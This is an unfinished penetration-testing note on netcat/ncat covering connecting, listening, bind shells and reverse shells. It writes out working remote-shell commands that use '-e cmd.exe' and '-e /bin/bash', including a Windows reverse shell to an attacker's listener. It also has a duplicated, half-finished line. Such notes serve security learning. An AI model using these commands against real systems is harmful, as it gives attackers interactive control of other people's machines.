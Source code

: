 ```yaml
---
description: >-
  Purpose? - To establish connections on open ports and create listening ports
  on local machine | REVERSE SHELL Section in development
---
```


# Netcat/Ncat - WIP

## This tool allows us to bind to a given port of a given IP address. It is of help when trying to send files between machines, developing exploit payloads that would serve a backdoor on a target.

The scope of this document limits to a discussion of how to use [netcat](https://nc110.sourceforge.io/)/[ncat ](https://nmap.org/ncat/)to connect to clients and serve opening ports

## Connecting vs Listening

To attempt to establish a connection with TCP port:

```bash
nc -nv [destination ip] [destination port]
```

To listen on TCP port:

```text
nc -nvlp 4444
```

## Bind Shell: Attacker connects to a victim on listening PORTS

1. On Windows Machine - set netcat/ncat to listen on 4444/TCP:

   Once Netcat is running 'Cmd line:' prompt will appear; we will pass it the command line executable.

   `nc -nvlp 4444 -e cmd.exe`

2. On Linux Machine - set netcat to connect to 4444/TCP:

   `nc -nv 192.168.2.1 4444 -e /bin/bash`

In the Bind Shell case described in 1 & 2 the Windows machine is the victim that has been set up to listen on 4444/TCP

## Reverse Shell: Victim connects to attacker on listening PORTS

This is the one you will be using the most

1. On Linux Machine - set netcat to listen on 4444/tcp:

   `nc -nvlp 4444`

2. On Windows Machine - connect to 192.168.2.130 machine on 4444/tcp:

   C:\nc64.exe

   Once Netcat is running 'Cmd line:' prompt will appear; we will 'pass the destination host'? the command line executable \(-e\)

   Once Netcat is running 'Cmd line:' prompt will appear; we will pass it the command line executable.

   Cmd line: -nv 192.168.2.130 4444 -e cmd.exe

